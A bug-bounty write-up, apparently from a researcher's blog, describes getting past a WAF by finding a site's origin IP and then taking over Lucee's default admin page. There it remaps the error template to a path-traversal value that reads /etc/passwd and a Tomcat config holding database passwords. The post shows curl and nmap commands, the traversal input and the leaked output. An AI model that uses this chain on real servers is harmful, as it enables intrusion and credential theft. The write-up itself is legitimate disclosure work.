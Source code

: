 ```yaml
---
layout: post
title: "Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion"
categories: BugBounty
---
```

## Bug Bounty - Information Disclosure through error message + WAF Bypass led to Local File Inclusion

# Summary:
This is a writeup about a critical bug that me and [0xcela](https://hackerone.com/cela) found while poking around. This bug is undisclosed due to private program so I'm going to refer the company as **redacted.com**
&nbsp;

A vulnerable directory was found which led to an information disclosure through error message. After trying different types of attacks we were blocked by Incapsula WAF, so we managed to find the origin ip to further continue our research where we found different endpoints which led to the same information disclosure through error message.


# Exploitation:
While bruteforcing hidden directories and looking through waybackurls, we found a path **/cfapps/** which output the error as shown in the picture below.
&nbsp;
![full path disclosure]({{ site.baseurl }}/assets/images/image2.png){:.container}

&nbsp;

We also found some endpoints that accepted parameters but soon as we tried something suspicious we were blocked and we couldn't access that site anymore. So we decided to look through censys.io search engine without any specific filter only "redacted.com" and we found the origin ip.

To prove that we found the origin ip, we could compare the body and site headers.
&nbsp;
{% highlight bash %}
> $ nmap -p80,443 redacted.com
80/tcp open http Incapsula CDN httpd
443/tcp open ssl/http Incapsula CDN http

> $ nmap -p80,443 -sV IP
PORT STATE SERVICE VERSION
80/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
443/tcp open ssl/http Apache Tomcat/Coyote JSP engine 1.1

> $ curl https://IP/cfapps/ -k -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:06:26'}
</div>
..[SNIP]..
</html>

> $ curl https://redacted.com/cfapps/ -v
<!doctype html>
<title>External Apps</title>
..[SNIP]..
<div class="center padding">
{ts '2019-05-28 13:07:53'}
</div>
..[SNIP]..
</html>
{% endhighlight %}
&nbsp;

We decided to report this because we thought that it would count as valid bug as it was exposing full paths but..
&nbsp;
![h1 reply]({{ site.baseurl }}/assets/images/image3.png){:.container}
&nbsp;
We continued our research to come up with an attack vector. We managed to log in into Lucee framework then abused Error Mapping function. What this function does is that when an error occurs, it redirects to a default error which is stored in a local file, in our case we could change it to read sensitive files.
&nbsp;
After knowing that it uses Lucee framework, we browsed to https://IP/lucee/
&nbsp;

Lucee has a public admin interface by default which you can find the path on view-source of /lucee/ and is located on https://IP/lucee/lucee/admin/server.cfm
&nbsp;

This prompts for a new password, which we set to admin321. We could log out and log in again on **https://IP/lucee/lucee/admin/web.cfm**. Even after we set a new password we could still change it by browsing to /server.cfm
&nbsp;
Browsing to /lucee/lucee/admin/web.cfm?action=server.error we could change the function when the application receives an 404 or 500 error, we changed the 500 error from default value (/lucee/templates/error/error.cfm) to **../../../../../../../../../../etc/passwd.**
&nbsp;
![Lucee Interface]({{ site.baseurl }}/assets/images/image4.png){:.container}
&nbsp;

**To execute the error.cfm, we made a request on a page that returned error 500**
```bash
curl -X GET \
https://IP/lucee/lucee/admin/web.cfm?action=debugging.logs&action2=detail&id=DCF806E56E1192D43C0A8B64EC573BC6
```
&nbsp;
**Response**:
HTTP/1.1 500 Internal Server Error
Content-Type: text/html;charset=UTF-8

> root:x:0:0:root:/root:/bin/bash
> bin:x:1:1:bin:/bin:/sbin/nologin
> daemon:x:2:2:daemon:/sbin:/sbin/nologin
> adm:x:3:4:adm:/var/adm:/sbin/nologin
> lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
> sync:x:5:0:sync:/sbin:/bin/sync
> shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
> halt:x:7:0:halt:/sbin:/sbin/halt
> mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
> operator:x:11:0:operator:/root:/sbin/nologin
> games:x:12:100:games:/usr/games:/sbin/nologin
> ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
> nobody:x:99:99:Nobody:/:/sbin/nologin
> systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
> dbus:x:81:81:System message bus:/:/sbin/nologin
> polkitd:x:999:997:User for polkitd:/:/sbin/nologin
> chrony:x:998:996::/var/lib/chrony:/sbin/nologin
> sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
> **raladmin:x:1000:1000::/home/raladmin:/bin/bash**
> sssd:x:997:994:User for sssd:/:/sbin/nologin
> nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
> tcpdump:x:72:72::/:/sbin/nologin
> tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
> setroubleshoot:x:996:992::/var/lib/setroubleshoot:/sbin/nologin
> **webuser:x:1001:1001:webuser:/home/webuser:/bin/bash**
> postfix:x:89:89::/var/spool/postfix:/sbin/nologin
>{: style="color: red"}

&nbsp;
![passwd]({{ site.baseurl }}/assets/images/image5.png){:.container}
&nbsp;
We also managed to read ../../../../../../../../../../../../usr/share/tomcat/conf/server.xml
&nbsp;
There was some sensitive info located in this file, including web-ldap and azure cloud postgresql passwords

# Note:
- Security Team decided to rate this bug as critical
- Bounty awarded
- Vulnerability fixed